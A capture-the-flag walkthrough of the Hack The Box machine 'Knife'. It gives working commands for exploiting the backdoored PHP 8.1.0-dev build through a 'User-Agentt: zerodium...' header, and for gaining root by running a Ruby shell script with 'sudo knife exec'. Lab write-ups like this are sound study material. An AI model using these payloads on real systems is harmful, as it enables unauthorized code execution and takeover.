



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

__IP-ADDR:__ 10.10.10.242 knife.htb

__nmap scan:__
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Running PHP version is
```bash
❯ curl -I http://knife.htb/
HTTP/1.1 200 OK
Date: Sun, 23 May 2021 02:42:36 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```

This is looks like a backdoor php which happened after php-rce github repo is compromised and someone made a [commit with backdoor](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d)

This backdoor executes PHP code from within the useragent HTTP header `User-Agentt`, if the string starts with 'zerodium'
```php
zerodium$any_php_function();
```

# Foothold

## backdoored php Version

Exploit it by sending payload in `User-Agentt` header 
```bash
❯ curl -s  http://knife.htb/ -H "User-Agentt: zerodiumsystem('id');" | sed '/<!DOCTYPE html>/,/<\/html>/d'
uid=1000(james) gid=1000(james) groups=1000(james)
```



# Privesc

## `knife` Command with sudo

User "james" have sudo rights to run `/usr/bin/knife` as root with NOPASSWD
```bash
(remote) james@knife:/opt/opscode$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

__[knife](https://docs.chef.io/workstation/knife_setup/):__ knife is a command-line tool that provides an interface between a local chef-repo and the Chef Infra Server. The knife command line tool must be configured to communicate with the Chef Infra Server as well as any other infrastructure within your organization.
  * __Chef Infra__ is a configuration management tool for defining infrastructure as code (IAC), making the process of managing configurations and system state automated and testable.

There is command in knife `[knife exec](https://docs.chef.io/workstation/knife_exec/)` which execute Ruby scripts in the context of a fully configured Chef Infra Client.

__Create rubby script__
```rb
system('/bin/bash')
```

__Run__
```bash
sudo -u root /usr/bin/knife exec script.rb
```



